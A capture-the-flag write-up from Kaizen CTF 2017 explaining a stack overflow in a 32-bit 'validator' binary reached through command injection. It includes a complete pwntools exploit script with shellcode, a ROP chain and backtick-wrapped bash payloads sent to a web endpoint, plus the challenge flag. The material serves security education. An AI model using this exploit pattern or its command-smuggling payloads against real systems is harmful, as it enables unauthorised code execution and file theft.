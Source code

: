 # Writeup for Riggity Wrecked (coin, 700 pts, 2 solves), Kaizen CTF at Blackhat 2017

Description:

> "Command Injection? ... I'm just reading them in the order that I'm seeing them."
> Woah! I wonder if we can go deeper. Can we exploit the validator binary itself?
> Submit the contents of the file at /home/anatomypark/flag.txt.

## TL;DR

- `strcpy(local_var, argv[2])`
- submit shellcode in `argv[1]`
- execute ROP chain to pop from stack until we hit a pointer to the shellcode
- return into shellcode

## Previous Knowledge

From the previous Coin challenges, we know that

- the `validator` binary is used to validate some user input

- the web page runs the binary with a POST request to `https://anatomypark.kaizen-ctf.com/api/v1/validateInviteCode`, supplying the parameters `name` and `invite`

- `validateInviteCode` effectively calls `system("validator <name> <invite>")`

## Analysing the Target

We perform some quick checks, before reversing the binary:

```
> file validator
validator: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=689ac5e07fd26cbf2fa963e632b71d07a294a0fd, stripped
```
32-bit binary, dynamically linked, stripped

```
> pwn checksec validator
[*] 'validator'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
All exploit mitigation techniques are turned off: no RELRO, no stack canary, NX and PIE are disabled.

After these checks, we load the binary in IDA and quickly spot the vulnerability:
```c
void __cdecl sub_8048589(int argc, char **argv)
{
  char *s; // [sp+18h] [bp-70h]@3
  char *v6; // [sp+1Ch] [bp-6Ch]@3
  char v7[64]; // [sp+20h] [bp-68h]@3
  signed __int32 v13; // [sp+74h] [bp-14h]@3

  if ( argc == 3 )
  {
    s = argv[1];
    strcpy(v7, argv[2]);
    v6 = sub_804850B(v7);
    v13 = strlen(s);
    if ( v13 <= 7 || v13 > 32 || v13 & 3 )
    {
      puts("failure");
    }
    else
    {
      [ ... ]
    }
  }
  else
  {
    puts("failure");
  }
}
```
We get an unbounded `strcpy` in a local variable, and if the first argument (the name) is longer than 32 characters, the function quickly returns, giving us the opportunity to take control of EIP or launch a ROP chain.

## The Exploit

Since NX is disabled, we can supply shellcode via the first command line parameter (which is stored somewhere way up on the stack).

One method to jump to our shellcode would be to prepend a nop sled and overwrite the saved return address with a hardcoded address hopefully pointing into our nop sled. Due to ASLR and varying environment variables, the stack shifts between executions, and hitting our shellcode would require several tries.

However, there is a better method. The stack does not only store the command line parameters, but also pointers to them (in `*argv`); it turns out that these pointers have a fixed offset from the saved return address we can overwrite. Subsequently, we can build a ROP chain consisting of ret-gadgets and pop our way up the stack, until we arrive at the desired pointer to our shellcode, and from there return into the shellcode. Since `strcpy` appends a null byte to whatever it copied, we also have to replace the last two ret-gadgets with a pop-ret-gadget.

Another issue we have to consider is escaping non-ascii characters in our payload (remember the binary is run like `system("validator <name> <invite>")`). I used command substitution to wrap the shellcode in an `echo -ne` call.

Putting everything together, we end up with the following exploit script:
```python
from pwn import *
import requests

LOCAL_BINARY = './validator'

context.binary = LOCAL_BINARY

ADDR_RET = 0x08048588
ADDR_POP_RET = 0x0804837d

def payload(a=None, b=None):
    if args['REMOTE']:
        def enc(x):
            return "`bash -c 'echo -ne \"" + ''.join("\\x" + hex(ord(c))[2:] for c in x) + "\"'`"
        a = enc(a)
        b = enc(b)
        r = requests.post('https://anatomypark.kaizen-ctf.com/api/v1/validateInviteCode', data={'name' : a, 'invite' : b})
        print r.text
    elif args['GDB']:
        proc = gdb.debug([LOCAL_BINARY, a, b])
        print proc.recvall()
        proc.close()
    else:
        proc = process([LOCAL_BINARY, a, b])
        print proc.recvall()
        proc.close()

def exploit():
    sc = asm(shellcraft.cat('/home/anatomypark/flag.txt') + shellcraft.exit(0))
    a = sc
    b = 'A' * 108 + p32(ADDR_RET) * 0x31 + p32(ADDR_POP_RET)
    payload(a, b)

if __name__ == '__main__':
    exploit()
```
Flag: `KAIZEN{it_g0es_w1thout_saying_th4t_the_rickest_r1ck_would_have_th3_mortiest_m0rty}`
